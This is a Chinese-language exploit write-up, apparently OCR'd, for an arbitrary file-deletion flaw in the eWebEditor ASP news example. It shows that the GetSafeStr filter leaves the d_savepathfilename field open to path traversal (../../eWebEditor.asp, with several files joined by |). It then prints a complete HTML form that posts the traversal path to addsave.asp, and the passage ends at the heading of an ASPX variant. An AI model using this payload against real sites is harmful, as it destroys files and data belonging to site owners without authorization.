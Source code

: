 看看D_SavePathFileName是怎么添加到数据库里的，在addsave.asp(modifysave.asp)里：

sSavePathFileName = GetSafeStr(Request.Form("d_savepathfilename"))
...
oRs("D_SavePathFileName") = sSavePathFileName

居然过滤了，是GetSafeStr函数，再看看这个函数，在Startup.asp里：

Function GetSafeStr(str)
GetSafeStr = Replace(Replace(Replace(Trim(str), "'", ""), Chr(34), ""), ";", "")
End Function

无语，这不是过滤字符型注入的函数么？放这里什么用也没有啊！既然路径没有过滤，那就可以直接定义了，构造一个提交页面，其

中d_savepathfilename自己任意赋值(要删除多个文件，用|隔开即可)。试试../../eWebEditor.asp，提交后删除该新闻，于是主目录

下的eWebEditor.asp不见了！

下面给出利用的htm：
&lt;HTML&gt;&lt;HEAD&gt;&lt;TITLE&gt;eWebEditor删除文件 by:oldjun(<a>http://www.oldjun.com)&lt;/TITLE</a>&gt;
&lt;style&gt;body,p,td,input {font-size:9pt}&lt;/style&gt;
&lt;/HEAD&gt;&lt;BODY&gt;&lt;a href='list.asp'&gt;新闻列表&lt;/a&gt; | &lt;a href='add.asp'&gt;增加新闻&lt;/a&gt;

&lt;b&gt;增加新闻&lt;/b&gt;

&lt;form action="<a>http://127.0.0.1/editor/Example/NewsSystem/addsave.asp</a>"
method="post" name="myform"&gt;
&lt;input type=hidden name=d_nofilename&gt;
&lt;input type=hidden name=d_savefilename&gt;
&lt;table cellspacing=3 align=center&gt;
&lt;tr&gt;&lt;td&gt;要删的文件(相对路径就可以了)：&lt;/td&gt;
&lt;td&gt;&lt;input type="text" name="d_savepathfilename" value="" size="90"&gt;&lt;/td&gt;
&lt;/tr&gt;
&lt;tr&gt;&lt;td&gt;新闻标题(随便填)：&lt;/td&gt;
&lt;td&gt;&lt;input type="text" name="d_title" value="" size="90"&gt;&lt;/td&gt;
&lt;/tr&gt;
&lt;tr&gt;&lt;td&gt;标题图片：&lt;/td&gt;
&lt;td&gt;&lt;select name="d_picture" size=1&gt;&lt;option value=''&gt;无&lt;/option&gt;&lt;/select&gt;
当编辑区有插入图片时，将自动填充此下拉框&lt;/td&gt;
&lt;/tr&gt;
&lt;tr&gt;&lt;td&gt;新闻内容(随便填)：&lt;/td&gt;
&lt;td&gt;&lt;textarea name="d_content"&gt;&lt;/textarea&gt;&lt;/td&gt;
&lt;/tr&gt;
&lt;/table&gt;

&lt;input type=submit name=btnSubmit value=" 提 交 "&gt;
&lt;input type=reset name=btnReset value=" 重 填 "&gt;
&lt;/form&gt;
&lt;/BODY&gt;&lt;/HTML&gt;

(二)ASPX版：

受影响文件：eWebEditorNet/upload.aspx
